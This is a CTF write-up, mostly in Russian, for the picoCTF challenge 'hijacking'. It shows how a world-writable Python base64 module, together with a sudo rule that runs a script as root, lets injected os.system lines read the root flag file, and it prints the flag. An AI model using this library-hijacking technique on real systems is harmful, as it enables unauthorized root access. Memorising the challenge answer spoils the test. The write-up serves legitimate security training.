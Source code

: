 # hijacking #
Category: Binary Exploitation

 
Score: 200
 
 Original description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
 
# Hints
1. Check for Hidden files

2. No place like Home:)

   
## Solution ##
 
Подключаемся по ssh.

Посмотрим скрытые файлы:

     picoctf@challenge:~$ ls -al
     total 20
     drwxr-xr-x 1 picoctf picoctf   36 Apr  1 10:16 .
     drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
     -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
     -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
     drwx------ 2 picoctf picoctf   34 Apr  1 10:05 .cache
     -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
     -rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
     -rw------- 1 picoctf picoctf  960 Apr  1 10:16 .viminfo

Запустим .server.py

picoctf@challenge:~$ python3 .server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File ".server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

Выдает ошибку.

Посмотрим через cat файлик:

picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 

Найдём местоположение используемых модулей :

picoctf@challenge:~$ python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']

Глядя на разрешения base64 модуля внутри /usr/lib/python3.8, мы имеем полный доступ для чтения, записи и выполнения.

picoctf@challenge:~$ ls -al /usr/lib/python3.8
-rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

Итак, можно модифицировать импортированный base64 модуль с помощью нашего собственного кода, т.к. весь код в импортированном модуле выполняется при импорте.

Проверим, какие команды можно запускать через sudo :

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
  (ALL) /usr/bin/vi
  (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Добавим в начало/lib/python3.8/base64.py через vim следующие строки :

import os
os.system('whoami')
os.system('ls -al /root > /home/picoctf/r.txt')
os.system('cat /root/.flag.txt')

Запусим .server.py:

picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
root
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname


flag: picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}


